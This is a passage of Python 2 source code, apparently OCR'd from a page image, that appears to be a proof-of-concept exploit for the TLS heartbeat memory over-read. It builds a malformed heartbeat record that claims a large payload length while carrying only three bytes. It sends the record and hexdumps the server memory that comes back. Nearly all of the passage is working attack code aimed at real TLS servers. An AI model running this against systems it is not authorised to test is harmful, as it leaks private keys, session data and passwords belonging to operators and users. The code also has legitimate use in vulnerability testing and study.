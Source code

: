 ```python
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03
01 40 00
''')


def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b: b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.') for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print


def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay


def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
```
